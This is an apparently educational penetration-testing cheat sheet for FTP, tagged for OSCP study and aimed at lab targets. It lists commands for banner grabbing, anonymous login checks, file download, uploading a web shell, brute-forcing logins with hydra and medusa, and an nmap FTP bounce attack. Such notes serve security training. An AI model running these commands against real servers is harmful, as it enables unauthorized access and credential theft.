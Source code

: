 ```yaml
---
title: "21 - FTP"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - ftp
toc: true
hide_title: true
excerpt: ""
---
```


## Banner Grabbing

```
nc -vn <IP> 21 
```

## Connecting to the FTP server using the `ftp` client.

```
ftp 192.168.2.142
```
### anonymous login check 

```
username : anonymous 
password : anonymous 
```

## File download

```
get flag.txt
mget *
```
## File upload

```
put shell.php
```

## Brute Force

### [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)

**Default Credentials for FTP**

```
hydra -L /username.txt -P /usr/share/wordlists/rockyou.txt ftp://10.129.203.7
```

```
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
``` 

## FTP Bounce Attack

The `Nmap` -b flag can be used to perform an FTP bounce attack:

```
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```
